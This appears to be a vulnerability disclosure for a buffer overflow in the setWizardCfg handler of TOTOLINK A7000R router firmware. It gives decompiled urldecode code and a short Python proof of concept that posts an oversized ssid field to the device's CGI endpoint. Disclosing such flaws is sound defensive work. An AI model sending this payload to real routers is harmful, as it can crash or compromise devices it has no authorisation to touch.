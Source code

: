 ## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/171/ids/36.html

## Affected version

A7000R_Firmware V9.1.0u.6268_B20220504

## Vulnerability details

In the A7000R_Firmware V9.1.0u.6268_B20220504 firmware has a buffer overflow vulnerability in the `setWizardCfg` function. The `v49` variable receives the `ssid` parameter from a POST request. However, since the user can control the input of `ssid`, the statement `urldecode` can cause a buffer overflow injection vulnerability.

![image-20240721225923266](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721225923266.png)

```c
_BYTE *__fastcall urldecode(int a1, _BYTE *a2)
{
  _BYTE *v3; // $s2
  int v4; // $s1
  unsigned int i; // $s0
  int v6; // $v0
  int v7; // $v1
  int v8; // $v0
  char v9; // $a0
  char v10; // $a2
  char v11; // $v1
  char v12; // $a0
  char v13; // $a2
  _BYTE *v15; // [sp+4Ch] [+2Ch]

  v15 = a2;
  v3 = a2;
  v4 = 1;
  for ( i = 0; i < strlen(a1); ++i )
  {
    v6 = *(char *)(a1 + i);
    if ( v6 == 37 )
    {
      v7 = *(char *)(a1 + i + 1);
      i += 2;
      v8 = *(char *)(a1 + i);
      v9 = 0;
      if ( v7 >= 65 )
        v9 = 7;
      v10 = 0;
      if ( v7 >= 97 )
        v10 = 32;
      v11 = v7 - 48 - v9 - v10;
      v12 = 0;
      if ( v8 >= 65 )
        v12 = 7;
      v13 = 0;
      if ( v8 >= 97 )
        v13 = 32;
      *v3 = v8 - 48 - v12 - v13 + 16 * v11;
    }
    else
    {
      *v3 = v6;
    }
    ++v4;
    ++v3;
  }
  v15[v4 - 1] = 0;
  return v15;
}
```

## POC

```python
import requests
url = "http://127.0.0.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
data = {"topicurl":"setWizardCfg","ssid":"a"*0x1000}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
print(response)
```

![image-20240719025405153](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240719025405153.png)

